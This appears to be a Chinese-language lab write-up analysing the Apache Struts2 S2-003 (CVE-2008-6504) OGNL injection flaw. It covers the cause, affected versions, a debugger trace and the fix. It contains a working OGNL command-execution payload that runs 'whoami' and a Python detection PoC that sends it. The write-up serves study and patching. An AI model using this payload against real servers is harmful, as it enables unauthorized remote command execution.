# 目录

[前言](##前言)

[Struts简介](##Struts简介)

[漏洞复现](##漏洞复现)

[漏洞简介](###漏洞简介)

[环境搭建](###环境搭建)

[Payload](###Payload)

[POC](###POC)

[漏洞分析](##漏洞分析)

[漏洞修复](##漏洞修复)

[总结](##总结)

[参考](##参考)


## 前言

> 这是Struts系列第二篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-003漏洞,又名CVE-2008-6504漏洞.

> Struts2会将http的每个参数名解析为OGNL语句执行,OGNL表达式通过#来访问Struts的对象,Struts框架通过过滤#字符防止安全问题,通过unicode编码(u0023)或8进制(43)就可以绕过了安全限制,官方通过增加安全配置即增加沙盒机制(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)来修补.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-003)

#### 漏洞成因

> Struts2会将HTTP的每个参数名解析为ognl语句执行,OGNL表达式通过#来访问Struts的对象,Struts框架中ParametersInterceptor通过过滤#字符防止安全问题,通过unicode编码(u0023)或8进制(43)就可以绕过了这个安全限制从而可以操作服务端的上下文对象进行执行恶意的代码. 

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.1.8.1

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,Tomcat必须是6.0.x版本才行,[下载地址](http://archive.apache.org/dist/tomcat/tomcat-6/),我下载的是6.0.10版本的tomcat,然后配置好Tomcat 6.0.x版本的就可以运行了

### Payload

#### 执行命令

```java
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

### POC

```python
#!/usr/bin/env python3

'''
name: Struts2 S2-003漏洞,又名CVE-2008-6504漏洞
description: Struts2 S2-003漏洞可执行任意命令
'''

import random
import string
import requests

class S2_003_BaseVerify:
    def __init__(self, url):
        self.url = url 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
        }
        self.capta = self.get_capta() 
        self.check_payload = r'''?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'{0}\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))'''.format('echo\\n' + self.capta)

    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta                 

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/example/HelloWorld.action'
        try:
            check_req = requests.get(self.url + self.check_payload, headers = self.headers)
            if self.capta in check_req.text.replace('\n', ''):
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_003 = S2_003_BaseVerify('http://localhost:8080/s2_003_war_exploded/HelloWorld.action')
    print(S2_003.run())
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析:

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器后到达ParametersInterceptor拦截器,进行参数的解析.这个拦截器继承自MethodFilterInterceptor,其主要功能是把ActionContext中的请求参数设置到ValueStack中,如果栈顶是当前Action则把请求参数设置到了Action中,如果栈顶是一个model(Action实现了ModelDriven接口)则把参数设置到了model中.问题出在ParametersInterceptor中,文件路径为xwork-2.0.5-sources.jar/com/opensymphony/xwork2/interceptor/ParametersInterceptor.java,在107和108行中打下断点,可见denyMethodExecution的预设值为true,需要设置为false才能继续执行,所以payload中有一部分代码是用来设置denyMethodExecution为false



&emsp;&emsp;&emsp;&emsp;2.执行payload后获取到的参数


&emsp;&emsp;&emsp;&emsp;3.F7进入到setParameters函数,此时开始通过迭代器取出一个个传入的参数,并进行处理



&emsp;&emsp;&emsp;&emsp;4.F7进入acceptableName函数,继续F7进入isAccepted函数



&emsp;&emsp;&emsp;&emsp;5.可看到这里通过简单的正则表达式[\p{Graph}&&[^,#:=]]*来检测,防止传入恶意特殊字符开头如#等.此处只过滤了#却没有过滤#字符的unicode格式,所以导致了安全限制被绕过从而导致了漏洞的产生.



&emsp;&emsp;&emsp;&emsp;6.分析\u0023到#的处理,继续执行,跟进setValue方法



继续F7进入setValue,跳到下面的重载方法





F7进入OgnlUtil.setValue方法


F7进入complie方法



F7进入parseExpression方法



F7进入topLevel方法,从topLevelExpression就开始了进行语法分析工作.接着进行expression()的解析。




expression()的解析主要来自于ognl-2.6.11-sources.jar/ognl/JavaCharStream.java readChar函数.在295行打一个断点



当\之后为u时,则会进行专门的处理,经过处理后\u0023就会转化为#从而绕过了安全限制



&emsp;&emsp;&emsp;&emsp; 7.payload分析

&emsp;&emsp;&emsp;&emsp;前一部分('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)是关闭了denyMethodExecution函数

&emsp;&emsp;&emsp;&emsp;剩余的就是执行命令并回显出来&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))


## 漏洞修复

> 官方通过增加安全配置禁止静态方法调用(allowStaticMethodAcces)和类方法执行(MethodAccessor.den
yMethodExecution)等来修补

## 总结

> struts2漏洞的精髓在ongl表达式......

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://xz.aliyun.com/t/2323#toc-6

> https://lorexxar.cn/2019/09/23/javaweb-S2/#S2-003-amp-S2-005
